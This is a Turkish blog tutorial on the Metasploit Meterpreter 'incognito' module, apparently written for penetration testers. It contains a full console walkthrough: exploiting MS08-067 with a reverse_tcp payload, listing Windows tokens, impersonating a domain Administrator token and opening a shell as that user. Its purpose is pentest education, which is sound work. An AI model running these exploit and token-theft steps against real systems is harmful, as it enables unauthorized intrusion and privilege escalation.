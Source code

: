 ```yaml
---
draft: false

title:  'MSF Incognito'
date: '2017-06-05T13:24:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Bir sisteme giriş yaptığınızda, sistemde bulunan kullanıcılara ait\_token\_adı verilen izin ve yetkilendirme kuralları bulunur. Bu kurallar, web uygulamalarında kullanılan\_cookie\_denilen çerez dosyalarına benzer. Kullanıcı ağdaki bir servise (örn. Net drive) ilk bağlandığında kullanıcı adı ve parolasıyla oturum açar. Oturum açıldığında sistem bu kullanıcıya bir\_token\_tanımlar. Artık bilgisayar kapanana kadar tekrar tekrar parola girmeden, sistemde bulunan servisi kullanma imkanı olacaktır." 
 
url:  /tr/msf-incognito/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Incognito Nedir?



Bir sisteme giriş yaptığınızda, sistemde bulunan kullanıcılara ait **token** adı verilen izin ve yetkilendirme kuralları bulunur. Bu kurallar, web uygulamalarında kullanılan **cookie** denilen çerez dosyalarına benzer. Kullanıcı ağdaki bir servise (örn. Net drive) ilk bağlandığında kullanıcı adı ve parolasıyla oturum açar. Oturum açıldığında sistem bu kullanıcıya bir **token** tanımlar. Artık bilgisayar kapanana kadar tekrar tekrar parola girmeden, sistemde bulunan servisi kullanma imkanı olacaktır.



Pentest işlemleri esnasında bu **token** ve yetkilerini ele geçirerek kullanmaya **incognito** işlemi denilmektedir. **token** izinleri, ikiye ayrılmaktadır. Bunlara **delegate** ve **impersonate** adı verilmektedir. Okuyucunun kafasının karışmaması için biz de İngilizce şekillerini kullanmaya devam edeceğiz.



Delegate: token izinleri beyan ediciler olarak kullanılır. Etkileşimli oturumlarda, örneğin uzak masaüstü bağlantıları tarzında işlemler için kullanılırlar.



Impersonate: token izinleri kişisel olarak üretilmiş izinlerdir ve etkileşim olmayan servisler için kullanılırlar. Örneğin bir ağ klasörüne bağlanmak gibi.


<!-- wp:quote -->
<blockquote class="wp-block-quote">
Dosya sunucuları bu token izinleri için çok zengin bir bilgi kaynağıdırlar.
</blockquote>
<!-- /wp:quote -->


Hedef sistemde bir token ele geçirdiğinizde, artık bir servise bağlanmak için o kullanıcının parolasını bilmeye gerek kalmaz çünkü yetkilendirme önceden yapılmıştır ve yetki kontrolü **token** iznine güvenilerek arka planda yapılır. Bir sistemde meterpreter shell açıldığında kullanılabilir durumda olan **token** listesi kontrol edilmelidir.



## Meterpreter Oturum Açalım



Aşağıdaki örnekte, öncelikle `ms08_067_netapi` modülü kullanılarak gerekli ayarlar yapılmakta ve bir oturum açılmaktadır.


```bash
msf **&gt;** use exploit/windows/smb/ms08_067_netapi
msf exploit**(**ms08_067_netapi**)** **&gt;** set RHOST 10.211.55.140
RHOST **=&gt;** 10.211.55.140
msf exploit**(**ms08_067_netapi**)** **&gt;** set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=&gt;** windows/meterpreter/reverse_tcp
msf exploit**(**ms08_067_netapi**)** **&gt;** set LHOST 10.211.55.162
LHOST **=&gt;** 10.211.55.162
msf exploit**(**ms08_067_netapi**)** **&gt;** set LANG english
LANG **=&gt;** english
msf exploit**(**ms08_067_netapi**)** **&gt;** show targets

Exploit targets:

   Id  Name                                               
   --  ----                                               
   0   Automatic Targeting                                
   1   Windows 2000 Universal                             
   2   Windows XP SP0/SP1 Universal                       
   3   Windows XP SP2 English **(**NX**)**                        
   4   Windows XP SP3 English **(**NX**)**                        
   5   Windows 2003 SP0 Universal                         
   6   Windows 2003 SP1 English **(**NO NX**)**                   
   7   Windows 2003 SP1 English **(**NX**)**                      
   8   Windows 2003 SP2 English **(**NO NX**)**                   
   9   Windows 2003 SP2 English **(**NX**)**                      
   10  Windows XP SP2 Arabic **(**NX**)**                         
   11  Windows XP SP2 Chinese - Traditional / Taiwan **(**NX**)** 


msf exploit**(**ms08_067_netapi**)** **&gt;** set TARGET 8
target **=&gt;** 8
msf exploit**(**ms08_067_netapi**)** **&gt;** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Triggering the vulnerability...
**[*********]** Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
**[*********]** Sending stage **(**2650 bytes**)**
**[*********]** Sleeping before handling stage...
**[*********]** Uploading DLL **(**75787 bytes**)**...
**[*********]** Upload completed.
**[*********]** Meterpreter session 1 opened **(**10.211.55.162:4444 -&gt; 10.211.55.140:1028**)**

meterpreter **&gt;**
```



## Incognito Modülünü Yükleyelim



Meterpreter oturumu açmayı başardıktan sonra `incognito` modülünü kullanmamız gerekiyor. `Incognito` modülü, meterpreter e ait bir modül olduğundan `use incognito` komutuyla modülü aktif hale getiriyoruz. Ardından `help` komutunu verdiğinizde, `incognito` modülüne özel komutları görebiliriz.


```bash
meterpreter **&gt;** use incognito
Loading extension incognito...success.
meterpreter **&gt;** help

Incognito Commands
**==================**

    Command              Description                                             
    -------              -----------                                             
    add_group_user       Attempt to add a user to a global group with all tokens 
    add_localgroup_user  Attempt to add a user to a local group with all tokens  
    add_user             Attempt to add a user with all tokens                   
    impersonate_token    Impersonate specified token                             
    list_tokens          List tokens available under current user context        
    snarf_hashes         Snarf challenge/response hashes **for **every token         

meterpreter **&gt;**
```



## Sistemdeki token Listesi



Meterpreter içerisinde `incognito` modülünü yükledikten sonra `list_tokens` komutuyla listeyi kontrol edelim. Listede bulunan bir takım **token** izinlerine Administrator kullanıcılarının bile erişimi olmayabilir. Bizim en fazla ilgileneceğimiz tür **SYSTEM** token izinleridir.


```bash
meterpreter **&gt;** list_tokens -u

Delegation Tokens Available
**========================================**
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
**========================================**
NT AUTHORITY\ANONYMOUS LOGON

meterpreter **&gt;**
```



Yukarıda listede bulunan `SNEAKS.IN\Administrator` isimli token fark ettiyseniz **Delegation** listesinde bulunmaktadır. Bunu **Impersonation** haline getirerek kişiselleştirmeniz gerekmektedir. Bunun için `impersonate_token` komutunu kullanacağız. Komutu girerken iki adet `\\` işareti kullanmaya dikkat edin. Listede `\` tek olsa da komutu girerken iki adet girilmelidir.


```bash
meterpreter **&gt;** impersonate_token SNEAKS.IN\\Administrator
**[**+] Delegation token available
**[**+] Successfully impersonated user SNEAKS.IN\Administrator
meterpreter **&gt;** getuid
Server username: SNEAKS.IN\Administrator
meterpreter **&gt;**
```



Komut başarıyla sonlandığında `getuid` komutuyla kullanıcı kimliğini kontrol ettiğimizde `Server username: SNEAKS.IN\Administrator` sonucu aldık.



## Yeni Kullacı ile Shell Açma



Meterpreter içerisinde `execute -f cmd.exe -i -t` komutu ile komut satırında oturum açalım ve `whoami` komutuyla Windows kullanıcı kimliğine bakalım. Burada `-i` seçeneği **interact*** yani etkileşimli, `-t` seçeneği ise yeni ele geçirdiğimiz `SNEAKS.IN\Administrator` token iznini kullanmayı ifade eder.


```bash
meterpreter **&gt;** shell
Process 2804 created.
Channel 1 created.
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32&gt; whoami
whoami
SNEAKS.IN\administrator

C:\WINDOWS\system32&gt;
```



Kişisel bilgisayarlarda karşılaşabileceğiniz **token** izinlerine, sunucu bilgisayarlarda daha çok rast gelebilirsiniz. Sunucularda bir çok servis etkileşimli ve çok kullanıcılı olarak çalıştığından liste daha uzun olacaktır. Bunların arasından en çok yetkili **token** izinleri denemelisiniz.
